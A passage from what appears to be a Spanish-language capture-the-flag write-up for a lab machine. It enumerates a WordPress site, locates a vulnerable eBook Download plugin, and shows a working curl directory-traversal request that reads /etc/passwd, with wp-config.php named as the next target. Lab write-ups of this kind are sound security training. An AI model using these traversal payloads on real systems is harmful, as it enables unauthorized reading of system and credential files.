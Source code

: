 # Busqueda de vulnerabilidades

El servidor está corriendo la versión 5.8.1 de Wordpress, tras investigar un poco se puede ver que esta versión de Wordpress no tiene ninguna vulnerabilidad interesante, sin embargo, puede haber algun plugin que si tenga alguna, lo que convertiria al gestor de contenidos en vulnerable.

Existen varias herramientas para enumerar gestores de contenido, en este caso utilizare `WPScan` (herramienta para enumerar Wordpress).

```plaintext
❯ wpscan --url http://10.10.11.125 -e vp
[i] No plugins Found
```

* -e > Enumera 
* vp > Vulnerable Plugins

La herramienta no nos detecta ningún plugin, vamos a intentar enumerar el gestor de contenido de forma manual. El directorio en el que se alojan los plugins es `http://10.10.11.125/wp-content/plugins/`.

![Plugin Wordpress]({{ 'assets/img/commons/backdoor/plugin.png' | relative_url }}){: .center-image }
_Plugins Wordpress_

Podemos observar que existe un plugin que no nos ha mostrado WPScan, vamos a ver si este plugin tiene alguna vulnerabilidad asociada.

```plaintext
❯ searchsploit ebook wordpress
---------------------------------------------------------------- ------------------------- 
Exploit Title                                                   |  Path
---------------------------------------------------------------- -------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal       | php/webapps/39575.txt
```

Podemos ver que el plugin eBook Download tiene asociada una vulnerabilidad que nos permite leer archivos del servidor (LFI) desde la siguiente ruta:
`http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

# Explotación

Tenemos un LFI (Local File Inclusion), que juntado con un Directory Traversal nos permitirá ser capaces de leer archivos del servidor, vamos a intentar ver los usuarios existentes en la máquina víctima.

```plaintext
❯ curl -s 'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd' | grep "sh$"
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user:/home/user:/bin/bash
```

Ya tenemos un usuario con el que podriamos autenticarnos mediante ssh, ahora solamente necesitaremos algunas contraseñas. Podemos ver el archivo que utiliza Wordpress para la configuración de la comunicación con la base de datos.
